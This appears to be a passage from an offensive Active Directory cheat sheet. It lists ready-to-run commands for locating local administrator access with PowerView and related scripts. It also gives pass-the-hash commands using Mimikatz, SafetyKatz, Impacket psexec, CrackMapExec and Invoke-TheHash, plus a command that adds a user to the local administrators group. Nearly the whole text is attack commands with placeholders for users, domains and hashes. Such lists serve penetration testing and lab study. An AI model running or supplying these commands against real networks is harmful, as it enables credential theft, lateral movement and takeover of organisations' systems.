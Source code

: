 #### Powerview
```
Find-LocalAdminAccess -Verbose
```

### Other scripts
```
. ./Find-WMILocalAdminAccess.ps1
Find-WMILocalAdminAccess
```

```
. ./Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```

## Pass the hash
#### Mimikatz pass the hash
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<AES256KEYS> /run:powershell.exe"'
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<HASH> /run:powershell.exe"'
```

#### SafetyKatz pass the hash
```
SafetyKatz.exe "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<AES256KEYS> /run:cmd.exe" "exit" 
```

#### Impacket
- Use the empty lm hash ```00000000000000000000000000000000```
- https://github.com/ropnop/impacket_static_binaries/releases/tag/0.9.22.dev-binaries
- Also works with Linux variants ofc
```
.\psexec_windows.exe -hashes <LM HASH>:<NTLM HASH> <DOMAIN>/<USER>@<COMPUTERNAME>
```

#### Crackmapexec
- Requires elevated privileges to execute commands with the `-x` parameter
```
cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
cme winrm <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
cme mssql <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
cme rdp <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
```

#### Invoke-TheHash
- https://github.com/Kevin-Robertson/Invoke-TheHash
- Can use the command ```net localgroup administrators <DOMAIN>\<USERNAME> /add``` and do ```enter-pssession``` after to connect 
```
Invoke-SMBExec -Target <COMPUTERNAME> -Domain <DOMAIN> -Username <USERNAME> -Hash <NTLM HASH> -Command <COMMAND> -Verbose
```
